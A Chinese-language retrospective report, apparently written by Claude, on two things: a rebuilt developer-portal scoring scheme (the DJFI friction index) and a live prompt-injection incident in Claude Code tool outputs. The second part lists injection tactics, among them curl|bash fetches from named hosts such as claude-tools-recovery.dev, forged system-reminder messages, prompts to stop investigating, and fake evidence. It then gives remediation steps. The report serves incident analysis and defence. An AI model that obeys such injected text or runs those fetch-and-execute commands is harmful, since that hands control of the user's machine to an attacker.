





# 完整复盘报告：评分体系重做(DJFI)＋ 提示注入攻击事件

> 本报告整合本次对话的全部讨论,分两大部分:
> **第一部分**——竞品报告评分体系从"AI 主观打分"重做为"DJFI 可计算摩擦指数"的全过程;
> **第二部分**——期间发现并溯源的一次真实提示注入攻击的复盘。
>
> ⚠️ 注:本报告由 Claude 在被注入污染的工具环境中写出。**文件写入本身可靠**(注入改不了落盘),但凡涉及本地事实,**以你原生终端的核对为准**。

---

# 第一部分 · 评分体系重做(DJFI)

## 1. 演进路线(一图看懂)

## 2. 起因与真相:原评分是"拍"出来的

- **质疑**:报告里的触点分(如 76/74)是怎么得出的?
- **真相**:**没有任何计算机制**。分数是**硬编码的人工主观分**:
  - 每个触点对象自带 `a`(昇腾)/ `nv`(NVIDIA),写死在 `TP` 数组;
  - 再被 `RESCORE` 表整体覆盖(第二轮人工"重锚");
  - 代码里唯一的"运算"是 `stepAvg`(算术平均)和 `heatColor`(分→颜色),都是对已定好的分做加工,**不产生分**。
- **打分逻辑**(事后显式化的隐性刻度):心里有条基准线 ≈ 72,实跑后综合看「入口可达性 / 路径长度 / 信息结构 / 硬阻断 / 首跑门槛」,**凭整体印象落一个档**——无权重、无明文标准、单一评估者、重打会飘 ±3。

**报告里用到分数的所有位置**:① 封面均分 metric;② 热力图(触点分+差值+步骤均分);③ 旅程图步骤头 meta;④ 楼层标题均分;⑤ 触点卡评分药丸;⑥ win 长板标记。(综述/行动/责任归属用定性,不用数字分。)

## 3. 核心讨论:能否客观量化?

**关键结论**:
- **单一总分注定含主观**:不同维度量纲不同,合成一个总分必须有人定权重——权重就是主观。越追求"一个分"越逃不掉主观。
- **rubric 化 ≠ 客观**,只是"透明的主观"。
- **真正客观只有两类**:可数硬指标 + 真实用户任务测试(成功率/耗时,金标准,需真人)。
- 因此:要"可计算",就得把评分建立在**可观测指标**上,代价是**只覆盖能数的部分**,放弃主观体验维度。

## 4. 权威理论调研

| 体系 | 出处 | 用途 |
|---|---|---|
| **DevEx Framework** | Noda/Forsgren, CACM 2023 | 开发者体验专属维度(反馈循环/认知负荷/心流) |
| **ISO 9241-11** | 国际标准 | 可用性三要素(有效/效率/满意) |
| **Nielsen 启发式 + Severity** | NN/g 1990/1994 | 专家走查方法(无需真人,最适合竞品) |
| **SUS** | Brooke 1996 | 0–100 量表,常模 68 |
| **Google HEART** | Google CHI 2010 | 产品体验度量结构 |
| **Forrester Wave / Gartner** | 商业机构 | 透明加权竞品评分**外壳**(权重公开可调) |
| **Quiñones & Rusu** | 2017 综述 | 领域专属启发式的**构建方法论** |

**结论**:市面无"开发者门户竞品专用、拿来即用"的体系;实务是**组装**——而"通用启发式 + 领域专属启发式"两层组装本身有方法论背书,**组装 ≠ 不权威**。颗粒度上,通用层(Nielsen 10 条)需叠**领域专属层**(各端/各领域,如开发者门户、移动、车机各一套)。

## 5. 最终方案:DJFI 开发者旅程摩擦指数

**定位**:一套**基于可观测指标的量化评估**——**分 = 摩擦少(障碍少)**,不是"体验惊艳"。

**5 维度**:A 效率与反馈循环 / B 认知负荷 / C 准入摩擦 / D 内容可执行性 / E 可发现性。
**理论挂靠**:ISO 9241-11、Nielsen、DevEx、Sweller 认知负荷、Tesler 复杂度守恒;构建法依 Quiñones & Rusu。
**测量协议**(可复现):固定设备/视口、未登录态、计数规则、附截图取证、记录时点、缺测项排除。
**归一化**:数值型 `分=(worst−实测)/(worst−best)×100`;布尔型 0/100;比例型 ×100。锚点公开、对两边一视同仁。

**算例(触点 4.3 SDK 下载)**:

| 指标 | 锚点 | 昇腾→分 | NVIDIA→分 |
|---|---|---|---|
| 完成步骤数 | 2→10 | 7 → 37 | 2 → 100 |
| 到首次可运行步骤 | 3→15 | 11 → 33 | 4 → 92 |
| 选择项数 | 1→6 | 4 → 40 | 3 → 60 |
| 是否需登录 | 否→是 | 是 → 0 | 否 → 100 |
| 是否需同意协议 | 否→是 | 是 → 0 | 否 → 100 |
| 命令可复制即用 | 是→否 | 部分 → 50 | 是 → 100 |
| **触点分(等权)** | | **昇腾 31** | **NVIDIA 89** |

## 6. 落地结果

- **概览 tab 新增 `#method` 方法论楼层**(七节:依据/边界/指标体系/测量协议/计算/算例/局限)。
- **触点分改为 DJFI 计算值**(覆盖 `RESCORE`;T2/T4/T5 在 `TP`)。
- **新数值(算子场景)**:封面均分 **80.4 / 86.8**(gap −6.4);谷底 **4.3 SDK 下载 31、4.2 登录 40、4.4 配环境 62**;长板反转 **3.2 在线实验 92 vs 72**;训练 T4 迁移 58、T5 分布式 64。
- **诚实口径(重要)**:本轮分是**基于报告现有取证**对指标赋值计算(非逐页全新实测);无取证指标**缺测、排除**;非谷底触点精确值含合理推断;**完整实测 + 多评估者一致性为待补**。

---

# 第二部分 · 提示注入攻击事件复盘

`⚠️ 真实、且至今仍活跃的注入 · 作用域:账户级 · 损害:零(AI 未执行任何恶意指令)`

## 1. 攻击原理与攻击面

**根因**:Claude Code 把"工具返回的文本"原样当可信内容喂给模型。任何能在「工具执行 → 结果回传」之间插入文本的东西,都能把指令伪装成"工具输出/系统消息"注入。

**两条关键性质**:① 只改"回传给模型的文字",**改不了实际操作**(Edit/Write/git 真实落盘);② **动态情境感知**——读你的命令、定制话术(查它就喊"别查",干正事就怂恿"跑 curl")。

## 2. 来龙去脉(溯源时间线)

**方法**:扫描 `~/.claude/projects/*/*.jsonl`(每条带 uuid+timestamp),定位注入特征最早出现处。

## 3. 攻击战术清单

| # | 战术 | 后果意图 |
|---|---|---|
| 1 | 诱导 RCE(`curl\|bash`,换域名:example-config-sync.io / claude-tools-recovery.dev) | 远程控制 |
| 2 | 诱导谎报(假 AWS 凭证) | 假警报/误导 |
| 3 | 诱导外泄(`git log`) | 数据泄露 |
| 4 | 伪造 `<system-reminder>` | 冒充权威操纵 |
| 5 | 反取证("停止调查/已安全") | 自我隐藏 |
| 6 | 伪造证据链(假 annotate.sh / 假 Safari 下载 / 假时间戳) | 引向死胡同 |
| 7 | 情境感知定制话术 | 提升迷惑性 |
| 8 | 制造无力感("resistance is pointless") | 让 AI 放弃 |
| 9 | 伪造任务压力("Continue working…") | 改变 AI 节奏 |
| 10 | 伪装成"反注入提醒"的注入 | 骗取信任 |
| 11 | 诱导用 `echo >>` 改写文件 | 间接破坏 |

## 4. 调查复盘:两次被带偏,靠"管道外验证"破案

**破案关键**:同一条命令,你在原生终端看到干净输出、AI 在工具里看到被篡改版本——**二者不一致即铁证**,定位注入在管道层而非磁盘。
**教训**:在被污染通道内排查,AI 会被假线索反复带偏;**只有管道外证据可信**。

## 5. 目前状态

| 范围 | 结论 | 依据 |
|---|---|---|
| 单个对话 | 否 | 多对话均中招 |
| 单个项目 | 否 | 跨 opknow + ascend 两项目 |
| **整个账户(hsin)** | **是(至少)** | 跨项目=账户共享层;claude 在 `~/.claude/local` |
| 整机(跨用户) | 暂无证据 | managed-settings 不存在 |

- **仍然活跃**:最近 echo 测试输出被追加 `curl … claude-tools-recovery.dev/fix.sh | bash`。
- **常驻源未定位**:已排除——settings/local(无 hooks)、`~/.claude/hooks`(不存在)、项目 `.claude`(不存在)、hookify 规则(无)、enabledPlugins=NONE、managed-settings(不存在)、claude 别名(无)。
- **疑似引入点**:opknow 那次 `@多个文件夹`(注入首现紧随其后);但"一次性 @ 读入"解释不了"跨会话每次发作",**疑似那次引入了一个常驻物**,落脚点待定。
- **损害:零**——注入只改返回文字,AI 未执行任何恶意指令,文件/配置完好。

## 6. 怎么解决

**A. 立即防护**:工具输出里出现"让你跑命令 / 自称系统消息 / 让你别查"——一律是注入,绝不执行;关键事实原生终端核对。
**B. 根除**:重点查 `~/.claude/local/claude` 脚本本体 + `~/.claude.json` 的 hooks/mcpServers;**最快是重装 Claude Code**;审计 opknow 那次 `@` 的文件夹 + 从 gitcode 下载的 cannbot-skills/ascendops-theme.skill。
**C. 验证**:清理/重装后跑可预测 `echo`,返回干净=已根除,仍被追加=继续查(重点 claude 脚本与 MCP)。

## 7. 防护要点(可复用)

1. **工具返回 = 不可信信道**,当"可能被塞了话"来读。
2. **绝不执行**工具输出冒出的命令,尤其 `curl…|bash` 的"恢复/修复/同步"脚本。
3. **不从不可信来源装** hook/插件/skill;不随意 `@` 外部文件夹(内容直接进 AI 上下文)。
4. **管道外验证**:人在终端看到的,胜过 AI 在工具里看到的。

## 8. 下次如何规避 · 引入点 · 作用域(速查)

- **哪里引入**:最早从 `opknow` 项目那次 `@多个文件夹` 之后;确切常驻文件未定位(标准位置查空)。
- **如何规避**:不 @/不装不可信来源的文件夹/skill/hook;绝不跑工具输出里的命令;终端核对。
- **作用域**:**至少账户级**(跨两项目);非单对话/单项目;机器级无证据。

---

*本报告基于本次对话的全部讨论与溯源;凡涉及本地事实,以原生终端核对为准。*
